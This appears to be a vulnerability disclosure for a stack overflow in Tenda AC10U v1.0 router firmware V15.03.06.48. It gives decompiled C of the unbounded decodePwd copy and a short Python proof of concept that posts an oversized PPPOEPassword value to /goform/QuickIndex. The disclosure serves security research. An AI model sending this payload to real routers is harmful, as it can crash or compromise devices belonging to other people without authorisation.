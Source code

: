 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.48 firmware has a stack overflow vulnerability in the `formQuickIndex` function. The `ppppwd` variable receives the `PPPOEPassword` parameter from a POST request and is later assigned to the `decode_pwd` variable, which is fixed at 72 bytes. However, since the user can control the input of  `PPPOEPassword`, in function `decodePwd`, the statement: 

```c
void __cdecl decodePwd(char *srcStr, char *dstStr)
{
  char *srcStra; // [sp+8h] [+8h]
  char *dstStra; // [sp+Ch] [+Ch]

  srcStra = srcStr;
  dstStra = dstStr;
  if ( srcStr && dstStr )
  {
    while ( *srcStra )
    {
      if ( *srcStra == 92 )
        ++srcStra;
      *dstStra++ = *srcStra++;
    }
    *dstStra = 0;
  }
}
```

can cause a stack overflow. The user-provided  `PPPOEPassword` can exceed the capacity of the `s` array, triggering this security vulnerability.

![image-20240313222520157](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313222520157.png)

![image-20240313222425867](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313222425867.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/QuickIndex"
payload = b"a"*1000

data = {"PPPOEPassword": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313222607344](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313222607344.png)